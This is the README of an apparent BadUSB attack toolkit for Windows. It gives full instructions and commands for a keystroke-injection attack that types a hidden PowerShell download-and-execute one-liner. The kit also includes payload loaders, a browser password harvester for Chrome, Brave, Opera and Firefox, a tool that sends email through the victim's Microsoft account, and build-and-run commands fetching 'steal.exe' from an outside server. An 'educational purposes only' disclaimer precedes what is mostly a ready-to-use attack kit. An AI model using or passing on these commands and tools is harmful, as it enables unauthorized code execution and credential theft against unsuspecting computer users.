 > **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

> **Note** \
> all code targets and has been tested for Windows and Python==3.10.11


### downloading this repo
assumes having git-cli and [Python~=3.10](https://www.python.org/downloads/release/python-31011/) already installed
```
git clone https://github.com/kaliiiiiiiiii/PublicDuckyChallenger
cd PublicDuckyChallenger
```

# Attack flow

<picture>
  <source
    srcset="assets/SimpleAttackFlowDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/SimpleAttackFlow.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  <img src="assets/SimpleAttackFlow.png" />
</picture>


## Keys pressed by the BadUSB

1. `WIN` + `r` which opens a command prompt
    ![Windows 10 Run Command](assets/Windows10RunCommand.png)
2. type `powershell -w h "IEX(iwr('URL'))"` where `URL` is  the url to a powershell script to execute
3. `ENTER` to run the command

## Programming & Hardware
See instructions for  [EvilCrowCable-Pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro) at [/evil_crow_cable](/evil_crow_cable) \
and for [WHID injector](https://github.com/whid-injector/WHID) (recommended) at [/whid_injector](/whid_injector)


## Keyboard layout
The keyboard layout used for the BadUSB has to match the one chosen at the OS. \
If this is not the case,
some keys which are placed at different locations in the different layouts will output the wrong character.

# Payloads

<picture>
  <source
    srcset="assets/PayloadsDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/Payloads.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  <img src="assets/Payloads.png" />
</picture>

## URL shortener
Shortens an url with only "safe" characters for the domain [is.gd](https://is.gd)

<details>
<summary>Details</summary>

file: [urlshortener.py](urlshortener.py) \
Characters considered "safe" for keyboards are:
```
    t uiop
asdfghjkl
 xcvbnm
```
[![img.png](assets/keyboard_layouts.png)](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such)
(from [quora](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such))

### requirements
```shell
pip install --upgrade aiohttp
```

### usage
```shell
python urlshortener.py https://kaliiiiiiiiii.github.io/rickroll/
# https://is.gd/tuion
```
or
```python
import asyncio
from urlshortener import create_short

async def main():
    url = "https://kaliiiiiiiiii.github.io/rickroll"
    _range = range(5, 10) # range to find urls for
    shorturl = await create_short(url, _range)
    print(shorturl)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

## Payload 1
Hides visible console window (if available) and downloads and executes `Payload 2`

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/pshid/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/pshid/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#pshid](https://github.com/kaliiiiiiiiii/vercel_utils_server?tab=readme-ov-file#pshid)

</details>

## Payload 2

### Rickroll (powershell)
- opens MS Edge on url
- sets audio volume to max
- user can't close it
- exits after `n` seconds

<details>
<summary>Details</summary>

file: [rickroll.ps1](rickroll.ps1)

#### usage
```shell
powershell -w h "IEX(iwr('is.gd/tuipo'))"
```
(download from this repo) \
or
```shell
powershell ./rickroll.ps1
```

#### configuration
You can change the `url` and `timeout` at [L96-L98](rickroll.ps1#L96-L98)

To create a short direct url to the file, run (replace `YourUserName` accordingly)
```shell
python urlshortener.py "https://raw.githubusercontent.com/YourUserName/PublicDuckyChallenger/master/rickroll.ps1"
```

#### Troubleshooting
If for some reason, you can't see your desktop anymore, perform the following steps:
1. press `CTRL` + `SHIFT` + `ESC`
2. click on `File`-> `Run New Task` in the Task-Manager
3. type `explorer` and press `ENTER`
4. 
</details>

### executable loader

downloads and executes a `.exe` file from `Endpoint 3` 

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/exe2ps1/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/exe2ps1/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#exe2ps1](https://github.com/kaliiiiiiiiii/vercel_utils_server/tree/main?tab=readme-ov-file#exe2ps1)

</details>


## Payload 3

### Password harvester
Steal all available passwords from Opera, Brave, Chrome and Firefox

<details>
<summary>Details</summary>

file: [pass_harvester/password_harvester.py](pass_harvester/password_harvester.py) (requires [firefox_harvester.py](pass_harvester/firefox_harvester.py))

### requirements
```shell
pip install --upgrade aiosqlite pywin32 pycryptodome aiofiles
```

### Usage
```shell
python  ./pass_harvester/password_harvester.py
```
or
```python
import asyncio
from pass_harvester.password_harvester import get_all_creds

async def main():
    all_creds = await get_all_creds()
    # note: creds can contain binary
    print(all_creds)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

### Edge email
Sends an E-Mail over the microsoft account on the device

<details>
<summary>Details</summary>

file: [edge_email.py](edge_email.py)
> **Note** \
> This currently only supports english and german devices.
> Feel free to add languages at [L48-L77](edge_email.py#L48-L77)

This works
because Microsoft apparently decided
to automatically log in with the microsoft account when creating a new MS-Edge profile

#### requirements
```shell
pip install --upgrade selenium-driverless
```

#### Usage
```shell
 python edge_email.py "test@test.com" "Test", "Hello there!"
```

```shell
> python edge_email.py -h
# usage: edge_email.py [-h] [--headfull] [--cc CC] to subject content
# 
# positional arguments:
#   to          The destination to send the E-Mail to
#   subject     Subject to send the E-Mail with
#   content     The content to send
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```
or
```python
import asyncio
from edge_email import write_email

async def main():
    await write_email("test@test.com", "Test", "Hello there!")
    print("E-Mail written")

if __name__ == "__main__":
    asyncio.run(main())
```

</details>



# Build executables

<details>
<summary>Instructions</summary>

### Requirements
```shell
pip install --upgrade pyinstaller
```
\+ all requirements for the python script to build

```shell
python build.py "steal.py"
```

### run
download from this repo
(executes script at [`https://vercelutilsserver.gymthun.com/exe2ps1?url=https://raw.githubusercontent.com/kaliiiiiiiiii/PublicDuckyChallenger/master/dist/steal.exe&arg=example@example.com`](https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com))
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com'))"
```
or execute the exe
```shell
.\dist\steal.exe test@test.com
```
or from python
```shell
python steal.py test@test.com
```
```shell
python steal.py -h
# usage: steal.py [-h] [--headfull] [--cc CC] to
# 
# positional arguments:
#   to          The destination to send the E-Mail to
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```

### Build write Mail
set up is similar to the other build
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fwrite_mail.exe&arg=example%40example.com'))"
```

</details>

## Acknowledgments
Inspiration, code snippets, etc.

- [github | neonfury/extract.py (gist)](https://gist.github.com/neonfury/a34a2aadc7c084f08cb046728cd25b54#file-extract-py) | password extractor for Chromium based browsers
- [github | foxtonforensics.com/blog/post/analysing-chrome-login-data](https://www.foxtonforensics.com/blog/post/analysing-chrome-login-data)
- [github | unode/firefox_decrypt/firefox_decrypt.py](https://github.com/unode/firefox_decrypt/blob/2a163faf6c22f62eb0b061fa3c0b317ae2e4a343/firefox_decrypt.py) | password extractor for firefox
- [stackoverflow | change-audio-level-from-powershell](https://stackoverflow.com/a/31751275/20443541)
- [community.spiceworks.com | sending-an-email-from-outlook-via-powershell](https://community.spiceworks.com/t/sending-an-email-from-outlook-via-powershell/938248)
- [learn.microsoft | outlook.mailitem](https://learn.microsoft.com/en-us/office/vba/api/outlook.mailitem)
